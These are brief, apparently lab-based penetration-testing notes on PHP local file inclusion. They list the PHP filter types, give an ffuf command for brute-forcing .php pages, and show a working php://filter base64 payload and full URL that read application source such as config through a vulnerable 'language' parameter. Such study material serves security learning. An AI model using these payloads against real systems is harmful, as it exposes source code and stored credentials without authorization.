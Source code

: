 
Types:
[String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)


Find php pages with ffuf
```shell-session
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

**Tip:** Unlike normal web application usage, we are not restricted to pages with HTTP response code 200, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.

Using base64 filter in order to get file source
```url
php://filter/read=convert.base64-encode/resource=config
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

